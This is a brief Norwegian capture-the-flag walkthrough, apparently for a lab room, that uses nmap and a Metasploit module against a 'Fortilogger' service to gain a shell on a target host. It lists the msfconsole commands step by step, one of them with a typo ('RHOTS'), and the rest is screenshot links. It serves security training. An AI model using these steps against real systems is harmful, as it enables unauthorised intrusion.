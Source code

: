 # Meteperter

## Find the existing exploit in MSF and use it to get a shell on the target. What is the username of the user you obtained a shell with?

For å løse denne gjør jeg en rask nmap scan på domenet. Jeg finner prosessen jeg kan exploite, som er "Fortilogger"
<br>

Start metasploit med `msfconsole -q`

<br>

`search fortilogger`

<br>

`use 0`

<br>

`set RHOTS *ip*`

<br>

`set LHOST tun0`

<br>

`run`

<br>

![picture1](https://user-images.githubusercontent.com/83395536/194724526-3ab048e5-345d-493a-9a4b-5a5f0b61d166.png)
<br>

Spørsmål
![hack3](https://user-images.githubusercontent.com/83395536/194724534-4c0c569a-65c7-430c-b289-9a2c12f39181.png)
<br>
![hack2](https://user-images.githubusercontent.com/83395536/194724535-dc59360b-0745-4899-9e90-252eeff910e7.png)

